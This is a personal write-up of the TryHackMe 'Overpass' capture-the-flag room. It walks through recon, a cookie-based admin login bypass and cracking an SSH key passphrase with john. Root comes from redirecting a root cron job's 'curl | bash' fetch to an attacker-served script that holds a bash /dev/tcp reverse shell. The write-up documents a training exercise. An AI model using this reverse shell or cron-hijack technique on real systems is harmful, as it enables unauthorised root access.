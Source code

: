 -----------------------------------------------
# THM Overpass
Tags:  #Hacking #Writeup 
Creation date: 2021-10-04

-----------------------------------------------

## [[Recon]]

### [[Nmap]]

![[overpass-nmapscan.png]]

- SSH on 22
- HTTP on 80

### HTTP server

![[overpass_landing.png]]

![[overpass_about_us.png]]

![[overpass-downloads.png]]

#### Directory scan

Using [[Gobuster]]

![[overpass-dir_scan.png]]

##### Admin

Admin page has a login form.

Hint on THM says not to bruteforce, and vector is in OWASP top 10. So either [[SQL injection]] or [[broken authentication]].

## User

### [[SQLMap]]

SQLmap didnt show any injection points even with level 5 risk 3.

### Authentication it is then...

looking at the source code for the admin site there is a file called `login.js`. It has a function called login().

Contents of `login()`:

```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

Looks like on a successful login attempt the website sets a cookie with the name of `SessionToken`. Creating a cookie with that name and refreshing the page grants us access to the admin area. (The value of the cookie doesn't matter as the website does not authenticate it properly.)

![[overpass-cooooooooookie.png]]

Admin area contains a private RSA SSH key with a handy hint telling us to crack it ourselves.

![[overpass-admin.png]]

#### johnny boy

use `ssh2john` to convert ssh key to hash for john:

`python /usr/share/john/ssh2john.py rsa > hash`


`john --wordlist=/usr/share/wordlists/rockyou.txt hash`

![[overpass-johnnyboy.png]]

john output says the passphrase for the ssh key is `james13`.

#### [[SSH]]

Can now SSH into the machine using the RSA key and passphrase from john.

`ssh -i rsa.txt james@10.10.197.150`

![[overpass-user.png]]

flag is in landing directory.

## Root

Nothing interesting in terms of [[SUID]] files and cant run any [[sudo]] commands due to lack of system password.

Home directory contains a TODO.txt file containing:

```
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website**
```

Apparently `Paradox` got automated builds going, probably using a cron job or something similar. We dont have perms to use crontab so will run linpeas to sniff something out.

`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`

Linpeas flags up a cronjob running as root every minute. Downloading the contents of `overpass.thm/downloads/src/buildscript.sh` and running it with bash. We dont have perms to edit this file to get ourselves a shell, `overpass.thm` should be in `/etc/hosts` though so we can see where it is pointing to.

![[overpass-hosts.png]]

localhost... Lets change that to our IP address.

We can then set up a python server containing `downloads/src/buildscript.sh` with our own version of `buildscript.sh`.

`builtscript.sh` contents (reverse shell):

```bash
bash -i >& /dev/tcp/10.11.47.218/4444 0>&1
```

Here we set up the python server, using port 80 as cron will request the default port.

![[overpass-python_server.png]]

Then on a listener we set up earlier, we have a root shell!

![[overpass-rooty.png]]

## Notes

Possible users:

-	Ninja
-	Pars 
-	Szymex 
-	Bee 
-	MuirlandOracle
